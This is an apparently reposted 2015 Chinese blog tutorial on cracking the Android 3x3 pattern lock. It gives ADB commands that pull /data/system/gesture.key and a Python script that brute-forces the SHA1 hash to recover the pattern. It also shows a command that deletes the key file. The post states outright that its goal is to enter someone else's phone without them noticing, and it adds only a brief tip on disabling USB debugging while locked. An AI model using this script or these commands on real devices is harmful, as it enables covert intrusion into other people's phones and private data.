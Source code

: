 ```yaml
---
ID: 3955
post_title: >
  ANDROID-如何破解安卓手机上的图形锁(九宫格锁)
author: ChinaBUG
post_excerpt: ""
layout: post
permalink: >
  http://blog.ipodmp.com/2015/03/android-graphics-on-how-to-hack-android-lock-jiu-gong-gesuo.html
published: true
post_date: 2015-03-06 09:23:31
---
```

<div class="content bgF8F8F8 f14">
<div id="content">

安卓手机的图形锁(九宫格)是3×3的点阵，按次序连接数个点从而达到锁定/解锁的功能。最少需要连接4个点，最多能连接9个点。网上也有暴力删除手机图形锁的方法，即直接干掉图形锁功能。但假如你想进入别人的手机，但又不想引起其警觉的话……你可以参考一下本文。

<a href="http://s3.51cto.com/wyfs02/M00/5A/26/wKioL1T4BzWAXbBjAAERg7NiUGY203.jpg" target="_blank"><img class="fit-image" src="http://s3.51cto.com/wyfs02/M00/5A/26/wKioL1T4BzWAXbBjAAERg7NiUGY203.jpg" alt="如何破解安卓手机上的图形锁(九宫格锁)" width="474" height="588" border="0" /></a>

前提条件：手机需要root，而且打开调试模式。一般来讲，如果用过诸如“豌豆荚手机助手”、“360手机助手”一类的软件，都会被要求打开调试模式的。如果要删除手机内置软件，则需要将手机root。

<strong>原理分析</strong>

首先科普一下，安卓手机是如何标记这9个点的。通过阅读安卓系统源码可知，每个点都有其编号，组成了一个3×3的矩阵，形如：

00 01 02

03 04 05

06 07 08

假如设定解锁图形为一个“L”形，如图：

<a href="http://s7.51cto.com/wyfs02/M01/5A/2A/wKiom1T4BujRjoo4AACaKtlnnME746.png" target="_blank"><img class="fit-image" src="http://s7.51cto.com/wyfs02/M01/5A/2A/wKiom1T4BujRjoo4AACaKtlnnME746.png" alt="如何破解安卓手机上的图形锁(九宫格锁)" width="443" height="419" border="0" /></a>

那么这几个点的排列顺序是这样的：00 03 06 07 08。系统就记下来了这一串数字，然后将这一串数字(以十六进制的方式)进行SHA1加密，存储在了手机里的/data/system /gesture.key 文件中。我们用数据线连接手机和电脑，然后ADB连接手机，将文件下载到电脑上(命令：adb pull /data/system/gesture.key gesture.key)，如图：

<a href="http://s1.51cto.com/wyfs02/M01/5A/26/wKioL1T4CA2Rk4CfAAAmKq5EOmE291.png" target="_blank"><img class="fit-image" style="width: 470px; height: 100px;" src="http://s1.51cto.com/wyfs02/M01/5A/26/wKioL1T4CA2Rk4CfAAAmKq5EOmE291.png" alt="如何破解安卓手机上的图形锁(九宫格锁)" width="534" height="124" border="0" /></a>

用WinHex等十六进制编辑程序打开gesture.key，会发现文件内是SHA1加密过的字符串：c8c0b24a15dc8bbfd411427973574695230458f0，如图：

<a href="http://s3.51cto.com/wyfs02/M02/5A/26/wKioL1T4CB_xP87NAAAdYW9ttqE449.png" target="_blank"><img class="fit-image" style="width: 495px; height: 146px;" src="http://s3.51cto.com/wyfs02/M02/5A/26/wKioL1T4CB_xP87NAAAdYW9ttqE449.png" alt="如何破解安卓手机上的图形锁(九宫格锁)" width="703" height="238" border="0" /></a>

当你下次解锁的时候，系统就对比你画的图案，看对应的数字串是不是0003060708对应的加密结果。如果是，就解锁;不是就继续保持锁定。那 么，如果穷举所有的数字串排列，会有多少呢?联想到高中的阶乘，如果用4个点做解锁图形的话，就是9x8x7x6=3024种可能性，那5个点就是 15120，6个点的话60480，7个点181440，8个点362880，9个点362880。总共是985824种可能性(但这么计算并不严密，因 为同一条直线上的点只能和他们相邻的点相连)。

满打满算，也不到985824种可能性。乍一看很大，但在计算机面前，穷举出来这些东西用不了几秒钟。

<strong>破解过程</strong>

知道了原理，就着手写程序来实现吧。这里使用了Python来完成任务。主要应用了hashlib模块(对字符串进行SHA1加密)和itertools模块(Python内置，生成00-09的排列组合)。

主要流程为：

1.ADB连接手机，获取gesture.key文件

2.读取key文件，存入字符串str_A

3.生成全部可能的数字串

4.对这些数字串进行加密，得到字符串str_B

5.将字符串str_A与str_B进行对比

6.如果字符串A，B相同，则说明数字串num就是想要的解锁顺序

7.打印出数字串num

下面为程序：
<pre class="prettyprint lang-python prettyprinted"><span class="com"># -*- coding: cp936 -*-</span><span class="kwd">import</span><span class="pln"> itertools
</span><span class="kwd">import</span><span class="pln"> hashlib
</span><span class="kwd">import</span><span class="pln"> time
</span><span class="kwd">import</span><span class="pln"> os

</span><span class="com">#调用cmd，ADB连接到手机,读取SHA1加密后的字符串</span><span class="pln">
os</span><span class="pun">.</span><span class="pln">system</span><span class="pun">(</span><span class="str">"adb pull /data/system/gesture.key gesture.key"</span><span class="pun">)</span><span class="pln">
time</span><span class="pun">.</span><span class="pln">sleep</span><span class="pun">(</span><span class="lit">5</span><span class="pun">)</span><span class="pln">
f</span><span class="pun">=</span><span class="pln">open</span><span class="pun">(</span><span class="str">'gesture.key'</span><span class="pun">,</span><span class="str">'r'</span><span class="pun">)</span><span class="pln">
pswd</span><span class="pun">=</span><span class="pln">f</span><span class="pun">.</span><span class="pln">readline</span><span class="pun">()</span><span class="pln">
f</span><span class="pun">.</span><span class="pln">close</span><span class="pun">()</span><span class="pln">
pswd_hex</span><span class="pun">=</span><span class="pln">pswd</span><span class="pun">.</span><span class="pln">encode</span><span class="pun">(</span><span class="str">'hex'</span><span class="pun">)</span><span class="kwd">print</span><span class="pln"> </span><span class="str">'加密后的密码为：%s'</span><span class="pun">%</span><span class="pln">pswd_hex

</span><span class="com">#生成解锁序列，得到['00','01','02','03','04','05','06','07','08']</span><span class="pln">
matrix</span><span class="pun">=[]</span><span class="pln"> 
</span><span class="kwd">for</span><span class="pln"> i </span><span class="kwd">in</span><span class="pln"> range</span><span class="pun">(</span><span class="lit">0</span><span class="pun">,</span><span class="lit">9</span><span class="pun">):</span><span class="pln">
    str_temp </span><span class="pun">=</span><span class="pln"> </span><span class="str">'0'</span><span class="pun">+</span><span class="pln">str</span><span class="pun">(</span><span class="pln">i</span><span class="pun">)</span><span class="pln">
    matrix</span><span class="pun">.</span><span class="pln">append</span><span class="pun">(</span><span class="pln">str_temp</span><span class="pun">)</span><span class="com">#将00——08的字符进行排列，至少取4个数排列，最多全部进行排列</span><span class="pln">

min_num</span><span class="pun">=</span><span class="lit">4</span><span class="pln">
max_num</span><span class="pun">=</span><span class="pln">len</span><span class="pun">(</span><span class="pln">matrix</span><span class="pun">)</span><span class="kwd">for</span><span class="pln"> num </span><span class="kwd">in</span><span class="pln"> range</span><span class="pun">(</span><span class="pln">min_num</span><span class="pun">,</span><span class="pln">max_num</span><span class="pun">+</span><span class="lit">1</span><span class="pun">):#从</span><span class="lit">04</span><span class="pln"> </span><span class="pun">-&gt;</span><span class="pln"> </span><span class="lit">08</span><span class="pln">
    iter1 </span><span class="pun">=</span><span class="pln"> itertools</span><span class="pun">.</span><span class="pln">permutations</span><span class="pun">(</span><span class="pln">matrix</span><span class="pun">,</span><span class="pln">num</span><span class="pun">)#从</span><span class="lit">9</span><span class="pun">个数字中挑出</span><span class="pln">n</span><span class="pun">个进行排列</span><span class="pln">
    list_m</span><span class="pun">=[]</span><span class="pln">
    list_m</span><span class="pun">.</span><span class="pln">append</span><span class="pun">(</span><span class="pln">list</span><span class="pun">(</span><span class="pln">iter1</span><span class="pun">))#将生成的排列全部存放到</span><span class="pln"> list_m </span><span class="pun">列表中</span><span class="pln">
    </span><span class="kwd">for</span><span class="pln"> el </span><span class="kwd">in</span><span class="pln"> list_m</span><span class="pun">[</span><span class="lit">0</span><span class="pun">]:#遍历这</span><span class="pln">n</span><span class="pun">个数字的全部排列</span><span class="pln">
        strlist</span><span class="pun">=</span><span class="str">''</span><span class="pun">.</span><span class="pln">join</span><span class="pun">(</span><span class="pln">el</span><span class="pun">)#将</span><span class="pln">list</span><span class="pun">转换成</span><span class="pln">str</span><span class="pun">。[</span><span class="lit">00</span><span class="pun">,</span><span class="lit">03</span><span class="pun">,</span><span class="lit">06</span><span class="pun">,</span><span class="lit">07</span><span class="pun">,</span><span class="lit">08</span><span class="pun">]--&gt;</span><span class="lit">0003060708</span><span class="pln">
        strlist_sha1 </span><span class="pun">=</span><span class="pln"> hashlib</span><span class="pun">.</span><span class="pln">sha1</span><span class="pun">(</span><span class="pln">strlist</span><span class="pun">.</span><span class="pln">decode</span><span class="pun">(</span><span class="str">'hex'</span><span class="pun">)).</span><span class="pln">hexdigest</span><span class="pun">()#将字符串进行</span><span class="pln">SHA1</span><span class="pun">加密</span><span class="pln">
        </span><span class="kwd">if</span><span class="pln"> pswd_hex</span><span class="pun">==</span><span class="pln">strlist_sha1</span><span class="pun">:#将手机文件里的字符串与加密字符串进行对比</span><span class="pln">
            </span><span class="kwd">print</span><span class="pln"> </span><span class="str">'解锁密码为：'</span><span class="pun">,</span><span class="pln">strlist</span></pre>
<strong>总结</strong>

从程序本身来说，得到解锁密码后应该用break跳出循环并终止程序运行。但Python并没有跳出多重循环的语句，如果要跳出多重循环，只能设置 标志位然后不停进行判定。为了运行速度就略去了“跳出循环”这个步骤。(有没有更好的实现跳出多重循环的方法?)另外也略去了很多容错语句。从破解目的来 说，如果单单是忘记了自己的手机图形锁密码，完全可以用更简单的办法：ADB连接手机，然后“adb rm /data/system/gesture.key”删除掉gesture.key文件，此时图形锁就失效了，随意画一下就能解锁。但本文开篇假设的是 “为了不被察觉地进入到别人的手机里”，所以就有了这篇文章。

最后提一个安全小建议：如果手机已root，还要用“XX手机助手”，还想设置图形锁的话——在手机“设置”选项里，有一个“锁定状态下取消USB 调试模式”(这个名字因手机而异，而且有的有此选项，有的手机就没有)，开启此功能之后，在手机锁定状态下就能够防范此类攻击了。此文技术原理很简单，还 望各位大大传授些高大上的Python编程技巧。

本文摘自《<a href="http://netsecurity.51cto.com/art/201503/467409.htm">如何破解安卓手机上的图形锁(九宫格锁)</a>》

</div>
</div>